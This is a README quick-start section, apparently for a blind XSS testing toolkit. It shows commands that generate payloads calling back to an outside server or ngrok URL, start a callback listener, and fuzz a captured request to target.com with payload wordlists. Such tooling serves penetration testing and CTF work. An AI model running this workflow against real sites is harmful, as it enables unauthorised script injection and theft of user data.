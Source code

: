 
---

## 🚀 Quick Start

### Complete Example - Testing a Target Site

```bash
# 1. Generate payloads
python3 blind_xss_generate.py \
  --server https://your-server.com \
  --file /x.js

# 2. Start callback server (in separate terminal)
sudo python3 callback_server.py \
  --domain your-server.com \
  --cert-dir ./ssl-certs \
  --result result/working.txt \
  --ctf-mode

# 3. Create Burp request file (burp.txt)
cat > burp.txt << 'EOF'
POST /api/comment HTTP/2
Host: target.com
Cookie: session=abc123
Content-Type: application/json

{"comment":"FUZZ","author":"test"}
EOF

# 4. Run automated testing (default 1 thread, use --threads 5 for speed)
python3 auto_xss_test.py \
  --request burp.txt \
  --wordlist wordlists/json_input_payloads.txt \
  --threads 5

# 5. Watch callback server for hits!
# Results will be in:
# - result/working.txt (confirmed payloads)
# - result/findings.txt (browser-detected XSS)
# - result/xss_hits.log (all callback hits)
# All files auto-sorted by ID!
```

### Using ngrok (No Server Needed)

```bash
# 1. Start ngrok
ngrok http 80

# 2. Use ngrok URL in payloads
python3 blind_xss_generate.py \
  --server https://abc123.ngrok.io \
  --file /x.js

# 3. Start callback server (HTTP only)
python3 callback_server.py \
  --http-only \
  --http-port 80 \
  --result working.txt

# 4. Test normally
python3 auto_xss_test.py \
  --request burp.txt \
  --wordlist wordlists/www_input_payloads.txt
```